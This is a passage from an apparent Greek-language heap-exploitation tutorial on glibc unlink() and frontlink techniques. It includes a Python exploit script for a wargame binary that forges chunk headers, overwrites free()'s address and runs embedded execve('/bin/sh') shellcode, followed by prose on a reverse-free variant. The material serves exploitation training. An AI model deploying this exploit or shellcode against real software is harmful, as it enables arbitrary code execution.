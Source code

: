 Κατά την κλήση του unlink() θα χρησιμοποιήσει ως P->fd τα πρώτα δεδομένα του 2ου κομματιού, οπότε εκεί θα μπει η διεύθυνση που θέλετε να υπεργράψετε - 12 (διότι στο FD->bk θα προσθέσει 12 στη διεύθυνση που αποθηκεύτηκε στο FD). Και σε αυτή τη διεύθυνση θα εισαχθεί η δεύτερη διεύθυνση που θα βρει στο 2ο κομμάτι, που μας ενδιαφέρει να είναι η διεύθυνση στη shellcode (P->bk ψεύτικο).

**from struct import \***

**import os**

**shellcode = "\xeb\x0caaaabbbbcccc" #jm 12 + 12bytes de relleno**

**shellcode += "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" \\**

**"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" \\**

**"\x80\xe8\xdc\xff\xff\xff/bin/sh";**

**prev_size = pack("\<I”, 0xfffffff0) #Interesa que el bit que indica que el anterior trozo está libre esté a 1**

**fake_size = pack("\<I”, 0xfffffffc) #-4, para que piense que el “size” del 3º trozo está 4bytes detrás (apunta a prev_size) pues es ahí donde mira si el 2º trozo está libre**

**addr_sc = pack("\<I", 0x0804a008 + 8) #En el payload al principio le vamos a poner 8bytes de relleno**

**got_free = pack("\<I", 0x08048300 - 12) #Dirección de free() en la plt-12 (será la dirección que se sobrescrita para que se lanza la shellcode la 2º vez que se llame a free)**

**payload = "aaaabbbb" + shellcode + "b"\*(512-len(shellcode)-8) # Como se dijo el payload comienza con 8 bytes de relleno porque sí**

**payload += prev_size + fake_size + got_free + addr_sc #Se modifica el 2º trozo, el got_free apunta a donde vamos a guardar la direccion addr_sc + 12**

**os.system("./8.3.o " + payload)**

**unset() liberando en sentido inverso (wargame)**

Ελέγχουμε 3 κομμάτια διαδοχικά και απελευθερώνονται με αντίστροφη σειρά από αυτήν που κρατήθηκαν.

Σε αυτή την περίπτωση:

Στο chunk c βάζουμε τη shellcode

Το chunk a το χρησιμοποιούμε για να υπεργράψουμε το b με τέτοιο τρόπο ώστε το size να έχει το bit PREV_INUSE απενεργοποιημένο ώστε να νομίζει ότι το chunk a είναι ελεύθερο.

Επιπλέον, υπεργράφουμε στην κεφαλίδα b το size ώστε να είναι -4.

Έτσι, το πρόγραμμα θα νομίζει ότι το “a” είναι ελεύθερο και σε ένα bin, οπότε θα καλέσει το unlink() για να το αποσυνδέσει. Ωστόσο, καθώς η κεφαλίδα PREV_SIZE είναι -4. Θα νομίζει ότι το κομμάτι του “a” στην πραγματικότητα αρχίζει στο b+4. Δηλαδή, θα κάνει ένα unlink() σε ένα κομμάτι που αρχίζει στο b+4, οπότε στο b+12 θα είναι ο δείκτης “fd” και στο b+16 θα είναι ο δείκτης “bk”.

Έτσι, αν στο bk βάλουμε τη διεύθυνση στη shellcode και στο fd τη διεύθυνση στη συνάρτηση “puts()”-12 έχουμε το payload μας.

**Τεχνική Frontlink**

Ονομάζεται frontlink όταν απελευθερώνεται κάτι και κανένα από τα γειτονικά του κομμάτια δεν είναι ελεύθερα, δεν καλείται το unlink() αλλά καλείται απευθείας το frontlink().
